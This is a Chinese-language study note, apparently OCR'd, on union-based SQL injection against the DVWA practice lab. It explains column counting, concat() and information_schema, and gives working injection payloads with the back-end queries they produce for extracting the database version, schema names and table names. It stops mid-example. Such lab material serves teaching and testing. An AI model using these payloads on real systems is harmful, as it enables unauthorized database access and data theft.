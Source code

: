- 判断列数的目的
  - 为了构造联合注入的语句

- 显示位不够解决方案
```sql
-- 使用concat()将多个数值合并到一行显示
SELECT first_name,last_name
FROM users
WHERE user_id = 1 
UNION ALL
SELECT CONCAT(version(),',',database()),1

-- 在前端输入：
 1' union all select concat(version(),',',database()),1#
```

- information_schema数据库
  - 使用范围：在该数据库向前端开放的时候，可以使用这个方法进行sql注入 
  - information_schema概述
    - MySQL5.0以上版本，存在一个自带的数据库
    - information_schema数据库中有3个表非常重要：

```shell
  SCHEMATA: 表里包含所有数据库的名字
  TABLES：表里包含所有数据库的所有表，默认字段为table_name
  COLUMNS: 表里包含所有数据库的所有表的所有字段
```
- 联合注入的过程：
  - 判断注入点
  - 判断是整型还是字符型
  - 判断列数(order by),显示位
  - 获取目标数据库名
  - 获取目标数据库的所有表名，字段名，字段中的数据
- 实操：
```
求当前库名：
前端：
1' union select concat(database(),',',version()),1 #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT concat(database(),',',version()),1;

// 得出当前库名：dvwa,5.5.54-0+deb8u1-log

求所有数据库的库名：
前端：
1' union all select group_concat(SCHEMA_NAME),1 from information_schema.SCHEMATA #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT group_concat(SCHEMA_NAME),1
FROM information_schema.SCHEMATA;

求当前数据库'dvwa'中的表名
前端：
1' union all select group_concat(TABLE_NAME),1 FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'dvwa' #

后端：
```